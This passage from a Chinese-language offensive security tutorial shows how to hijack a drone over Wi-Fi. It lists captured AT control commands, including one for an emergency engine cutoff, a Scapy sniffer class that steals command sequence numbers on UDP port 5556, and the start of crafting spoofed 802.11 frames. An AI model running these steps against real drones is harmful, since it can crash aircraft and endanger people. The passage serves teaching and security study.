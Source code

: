 运行这个脚本给我们看看无人机的指令协议。我们看到协议使用的语法是：`AT*CMD*=SEQUENCE_NUMBER,VALUE,[VALUE{3}]`。记录很长时间的流量，我们学会了三个简单的指令，这将会被我们的攻击所利用。命令`AT*REF=$SEQ,290717696\r`是发送无人家降落的命令。其次，命令`AT*REF=$SEQ,290717952\r`发送一个紧急降落的命令，立即切断引擎。命令`AT*REF=SEQ, 290718208\r`发送给无人机一个起飞指令。最后，我们可以用命令`AT*PCMD=SEQ, Left_Right_Tilt, Front_Back_Tilt, Vertical_Speed,Angular_Speed\r`来控制无人机。我们现在知道足够的指令来攻击无人机了。

```py
attacker# python uav-sniff.py
'AT*REF=11543,290718208\r'
'AT*PCMD=11542,1,-1364309249,988654145,1065353216,0\r'
'AT*REF=11543,290718208\r'
'AT*PCMD=11544,1,-1358634437,993342234,1065353216,0\rAT*PCMD=11545,1
1355121202,998132864,1065353216,0\r'
'AT*REF=11546,290718208\r'
<..SNIPPED..> 
```

我们开始创建一个 Python 类`interceptThread`，这个类用于储存我们攻击的字段。这些字段包含在刚才截获的数据包里，具体的无人机序列号，和最后一个描述无人机流量是否被截获的布尔值。初始化这些字段后，我们将创建两个函数`run()`和`interceptPkt()`，`run()`函数开始嗅探过滤的 5556 UDP 流量，并触发`interceptPkt()`函数，当拦截到无人机流量，布尔值变为真，接下来，它将从当前记录的无人机控制流量中玻璃序列号。

```py
class interceptThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.curPkt = None
        self.seq = 0
        self.foundUAV = False
    def run(self):
        sniff(prn=self.interceptPkt, filter='udp port 5556')
    def interceptPkt(self, pkt):
        if self.foundUAV == False:
            print('[*] UAV Found.')
            self.foundUAV = True
            self.curPkt = pkt
            raw = pkt.sprintf('%Raw.load%')
        try:
            self.seq = int(raw.split(',')[0].split('=')[-1]) + 5
        except:
            self.seq = 0 
```

## 用 Scapy 制作 802.11 数据帧

接下来，我们要制作一个包含无人机指令的新的数据包。然而，为了做到这一点，我们需要共当前的数据帧中复制一些必要的信息。因为数据包包含 RadioTap, 802.11, SNAP, LLC, IP, and UDP 层，我们需要从各个层中复制字段。`Scapy`对每一层都有很好的支持，例如，看看 Dot11 层，我们开始`Scapy`然后执行`ls(Dot11)`命令，我们会看到我们需要复制到我们伪造的数据包中的字段。

```py
attacker# scapy
Welcome to Scapy (2.1.0)
>>>ls(Dot11)
subtype : BitField             = (0)
type : BitEnumField           = (0)
proto : BitField               = (0)
FCfield : FlagsField            = (0)
ID : ShortField                = (0)
addr1 : MACField             = ('00:00:00:00:00:00')
addr2 : Dot11Addr2MACField   = ('00:00:00:00:00:00')
addr3 : Dot11Addr3MACField   = ('00:00:00:00:00:00')
SC : Dot11SCField            = (0)
addr4 : Dot11Addr4MACField   = ('00:00:00:00:00:00') 
```
